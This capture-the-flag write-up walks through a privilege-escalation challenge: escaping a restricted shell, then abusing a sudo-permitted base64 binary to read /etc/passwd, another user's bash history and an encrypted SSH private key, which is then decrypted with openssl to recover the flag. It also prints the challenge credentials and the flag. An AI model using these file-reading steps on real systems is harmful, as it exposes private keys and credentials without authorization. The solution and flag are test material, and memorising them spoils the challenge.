# O3: Escalation of Power 
**Objective:** Exploit a restricted shell to escalate privileges and prove your access.
- SSH into the system with the limited access you've been given
- Enumerate the machine and hunt for a vulnerability or misconfiguration
- Exploit it to escalate your privileges
- Prove your access by obtaining the flag

**Difficulty:** Medium (300 points)

**Category:** Privilege Escalation

## Materials and References
- **Provided:**
    - Connect: `ssh user@0.cloud.chals.io -p 20009`
    - Credentials:
        - Username: `WICYS2025`
        - Password: `XrW/YgVyqho08+Gv`
- **Tools Used:**
    - [gtfobins](https://gtfobins.github.io/)
    - ChatGPT
    - SSH client
    - `nano`
    - `base64`
    - `openssl`

## Flag Format
FLAG{...}

## Write-Up

Connected via ssh with the command below and provided the given credentials
```Bash
ssh user@0.cloud.chals.io -p 20009
```

<p align="center">
  
</p>

`whoami` returns a warning starting with `rbash` followed by `command not found`.
This indicates a restricted bash environment.

The `cd` command cannot be run, but `ls` can be used to see other directories.

<p align="center">
  
</p>


Checked `$PATH` to see what commands are allowed:
```Bash
echo $PATH
```

Returned `/tools`.

Listed the available commands in `/tools`:
```Bash
ls /tools
```
- `base64`
- `clear`
- `ls`
- `openssl`
- `rm`
- `sudo`

<p align="center">
  
</p>

Commands that could potentially help with privilege escalation include `sudo`, `openssl`, and `base64`.

Checked which commands `sudo` can run
```Bash
sudo -l
```

Only one command is allowed:
> (r00t) NOPASSWD: /tools/base64

<p align="center">
  
</p>

Using GTFObins, `base64` can read files as another user. Template structure of the command to read files as `r00t`:
```Bash
sudo -u r00t /tools/base64 {file path} | base64 -d
```

Tested with a common file:
`sudo -u r00t /tools/base64 /etc/passwd | base64 -d`

The file contents displayed successfully, revealing that `r00t` is a regular user, not root.

<p align="center">
  
</p>

Various attempts to read other files were ran either contain no relevant information or were inaccessible with `r00t` privileges

Next, read files in `r00t`'s home directory to find useful information:
```Bash
sudo -u r00t /tools/base64 /home/r00t/.bash_history | base64 -d
```

<p align="center">
  
</p>

The `grep` command is unavailable, so strings were searched using the terminal’s find feature. One command stood out:
```Bash
chmod 400 f14g.txt
```

<p align="center">
  
</p>

Before this, the user navigated to `~`, the home directory of `r00t` (`/home/r00t`).

Read `f14g.txt` with the command:
```Bash
sudo -u r00t /tools/base64 /home/r00t/f14g.txt | base64 -d
```

The file contents are still encoded.

<p align="center">
  
</p>

Attempts to decipher file with common deciphers failed.

Further investigation of `.bash_history` revealed a command generating an RSA key:
```Bash
ssh-keygen -t rsa -b 4096 -m PEM -f ~/.ssh/mysshkey -q
```

<p align="center">
  
</p>

The RSA key may be able to be used to decrypt f14g.txt.

Attempted to read the RSA key:
```Bash
sudo -u r00t /tools/base64 /home/r00t/.ssh/mysshkey | base64 -d
```

The private RSA key was encrypted.

<p align="center">
  
</p>

Used `openssl` to decrypt the RSA key:
```Bash
sudo -u r00t /tools/base64 /home/r00t/.ssh/mysshkey | base64 -d | openssl rsa -in /dev/stdin -noout -text
```
- `openssl rsa`: operates on RSA keys
- `-in /dev/stdin`: reads key from standard input (piped from base64 decode)
- `-noout`: prevents output of the encoded key
- `-text`: prints the full textual representation of the key (modulus, exponent, etc.)

A password was required. Attempted the password from the provided SSH credentials: `XrW/YgVyqho08+Gv`, which worked.

<p align="center">
  
</p>

Due to limited commands on the remote system, moved files to the local terminal for easier manipulation and to reduce risk of errors.

`f14g.txt` and `mysshkey` contents were copied in base64 form to a local terminal and decoded there:
```Bash
nano f14g.b64
base64 -d f14g.b64 > f14g.decoded
touch mysshkey
openssl rsa -in mysshkey -out mysshkey_decrypted 
```
- `openssl rsa -in mysshkey -out mysshkey_decrypted`: decrypts the RSA private key using the given password, outputting a usable key
    - `-in`: specifies the file to decrypt
    - `-out`: specifies the output file for the decrypted key

<p align="center">
  
  
</p>

Used the decrypted key and to decode the encrypted file. Gave `XrW/YgVyqho08+Gv` as the password.
```Bash
openssl rsautl -decrypt -inkey mysshkey_decrypted -in f14g.decoded
```
- `openssl rsautl -decrypt -inkey mysshkey_decrypted -in f14g.decoded`: decrypts the encrypted file using the decrypted RSA private key.
    - `-inkey`: specifies the RSA key to use
    - `-in`: specifies the encrypted input file

**Flag**: flag{sudo_m4de_m3_r00t}

<p align="center">
  
</p>